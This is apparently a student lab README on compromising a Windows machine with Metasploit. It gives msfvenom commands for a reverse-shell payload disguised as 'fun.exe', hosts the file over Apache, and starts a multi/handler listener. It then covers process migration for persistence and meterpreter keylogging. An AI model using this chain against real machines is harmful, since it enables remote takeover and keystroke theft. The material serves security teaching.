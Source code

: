# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
OUTPUT:
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/73df9249-0425-4b20-932d-4837c6ae45c2)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/127368e4-5c79-49a6-b33d-1e7f62f5ed8c)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/29cc407e-6567-4804-82c2-92474dfc0270)
Start apache server sudo systemctl apache2 start
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/eb1001b2-1904-470f-8f82-42fa0414c798)
Check the status of apache2
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4dcd6005-ffe3-4c68-915a-d8640d85c571)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/5a15a7d3-8d84-4227-897d-4a65ee7e93ae)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/2ba90ceb-8360-46e4-8285-cb5cc8f7adf9)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/a832e813-c1a5-4501-a0ad-9349c121a387)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/04aaf57d-93d3-4865-8ab2-6604dcce934f)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/842d9ca8-2282-4429-8190-1e676bf4c94d)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4698d960-28c5-4374-9439-03393a5e683e)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/760536e0-87d5-45db-91fa-0e802a693eb2)















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
